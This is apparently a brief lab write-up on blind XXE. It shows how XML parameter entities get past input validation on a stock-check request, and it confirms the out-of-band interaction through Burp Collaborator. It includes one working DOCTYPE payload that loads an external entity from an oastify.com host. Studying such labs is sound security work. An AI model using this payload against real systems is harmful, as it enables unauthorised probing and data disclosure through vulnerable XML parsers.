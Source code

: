 If we try to perform a XXE attack, a security warning is displayed:
![](imgs/blind_xxe_bypass_input_validation_with_XML_parameter_entities.png)

In order to bypass this, we can use the XML parameter entities, that has this payload:
`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://wffns0aemo7wmyf60b8vih5sdjjc76vv.oastify.com"> %xxe; ]>`

We can send this request:
![](imgs/blind_xxe_bypass_input_validation_with_XML_parameter_entities-1.png)

And Burp Collaborator displays the request:
![](imgs/blind_xxe_bypass_input_validation_with_XML_parameter_entities-2.png)